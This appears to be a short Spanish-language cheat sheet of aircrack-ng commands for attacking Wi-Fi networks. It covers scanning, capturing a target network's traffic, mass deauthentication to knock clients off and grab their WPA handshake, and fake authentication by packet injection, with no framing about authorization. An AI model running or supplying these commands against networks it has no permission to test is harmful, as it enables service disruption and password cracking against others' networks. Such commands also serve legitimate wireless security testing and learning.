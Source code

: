 
# Con el siguiente comando escanearemos las redes de 2.4 hz

```bash
airodump-ng --band abg [NOMBREINTERFAZ]
```

# Asi lo usamos para olfatear una red en especifico, siempre ejecutarlo en algun directorio que creemos con el nombre de la red porque nos guarda varios archivos

```bash
airodump-ng --bssid FF:FF:FF:FF:FF:FF --channel [CANAL] --write test [NOMBREINTERFAZ]
```

# Con este ataque nos hacemos pasar por un dispositivo y hacemos como que queremos desconectarnos para qe lo echen de la red y capturar su handshake.

```bash
aireplay-ng --deauth 1000000 -a [BSSID] -c [STATION] wlan0
```

# Hacemos lo mismo pero a multiples usuarios en una red

```bash
aireplay-ng --deauth 1000000 -a [BSSID] -c [STATION] [NOMBREINTERFAZ] &>/dev/null&
```


# Para listar los trabajos

```bash
jobs
```

# Dejar de correrlos

```bash
kill
```

# Asi escaneamos por canal y guardamos la captura

```bash
airodump-ng --bssid [BSSID] --channel [CANAL] --write [NOMBREAGUARDAR] wlan0
```

## Para encontrar redes ocultas

# Autenticacion falsa con inyeccion de paquetes

```bash
aireplay-ng --fakeauth 0 -a [BSSID] -h [NUESTROMAC] [NOMBREINTERFAZ]
```
